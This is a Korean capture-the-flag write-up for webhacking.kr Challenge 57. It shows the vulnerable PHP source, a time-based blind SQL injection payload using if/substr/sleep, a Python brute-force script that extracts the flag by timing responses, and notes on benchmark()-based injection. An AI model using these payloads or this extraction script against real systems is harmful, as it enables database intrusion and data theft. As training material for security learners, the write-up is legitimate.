 # 문제

- 소스

  ```php
  <?php
    include "../../config.php";
    include "./flag.php";
    if($_GET['view_source']) view_source();
  ?><html>
  <head>
  <title>Challenge 57</title>
  </head>
  <body>
  <?php
    $db = dbconnect();
    if($_GET['msg'] && isset($_GET['se'])){
      $_GET['msg'] = addslashes($_GET['msg']);
      $_GET['se'] = addslashes($_GET['se']);
      if(preg_match("/select|and|or|not|&|\||benchmark/i",$_GET['se'])) exit("Access Denied");
      mysqli_query($db,"insert into chall57(id,msg,pw,op) values('{$_SESSION['id']}','{$_GET['msg']}','{$flag}',{$_GET['se']})");
      echo "Done<br><br>";
      if(rand(0,100) == 1) mysqli_query($db,"delete from chall57");
    }
  ?>
  <form method=get action=index.php>
  <table border=0>
  <tr><td>message</td><td><input name=msg size=50 maxlength=50></td></tr>
  <tr><td>secret</td><td><input type=radio name=se value=1 checked>yes<br><br><input type=radio name=se value=0>no</td></tr>
  <tr><td colspan=2 align=center><input type=submit></td></tr>
  </table>
  </form>
  <br><br><a href=./?view_source=1>view-source</a>
  </body>
  </html>
  ```

- msg를 입력받고 secure 옵션이 있다.

  - 둘 다 get 파라미터로 넘어간다

- msg는 싱글쿼터로 막혀있지만

  - secure는 인젝션 가능하다.




#  풀이

- `benchmark`가 필터링 된것을 보니 타이밍 인젝션임을 예측할 수 있다.

- 필터링

  - and가 막혀있으므로 if
  - 그외엔 필요없다.

- insert될 때 flag가 같이 저장되므로, 그값을 substr로 비교하면서 플래그값을 찾으면 되겠다.

- 파이썬 코딩

  ```python
  while True:
      flag_find = 0
      for ch in range(256):
          se = 'if(substr(pw, {0}, 1)={1}, sleep(3), 222)'.format(len(flags)+1, hex(ch))
          url = 'https://webhacking.kr/'
          params = {'msg': '123123', 'se': se}
          print params['se']
          start = time.time()
          res = requests.get(url+page, params=params,  cookies=cookies)
          end = time.time()
          ch = chr(ch)
          if end - start > 2:
              print 'founded!!'
              print 'chr: ' + ch
              print 'current: ' + flags
              flags += ch
              flag_find = 1
              break
  
      if flag_find == 0:
          break
  
  print 'founded flags successfully...'
  print 'flags: ' + flags
  
  ```

  



# 알게된 것

### BenchMark in sql

- timing sql injection시 사용한다.
- m함수를 n번 실행할 수 있다.
- 예시
  - `benchmark(1000000, md5('1'))`
    - md5를 1000000만큼 실행
- sql injection 예시
  - `123' or substr(id, 0, 1)='a' and benchmark(1000000, md5('1'))`

### IF문 in sql

- 예시
  - ` insert into myTable values(if(no=123,'female','male'), 121212);`
  - 참이면 female, 거짓이면 male
- timing 인젝션시 and가 막혔을 때 우회할 수 있다.



### 시간측정 in python

- `time.time`

  - 현재 시간 카운트값을 반환해준다.

- 실사용 예

  ```python
  import time
  start = time.time()  # 시작 시간 저장
   
  # 작업 코드
   
  print("time :", time.time() - start)  # 현재시각 - 시작시간 = 실행 시간
  ```

### requests in python

- get 파라미터 전달시 주의사항
  - 파라미터는 requests의 인자로 전달해야 한다.(url 인코딩 문제때문인듯)
  - 예시
    - `requests.get(url, params=param, cookies=cookies)`
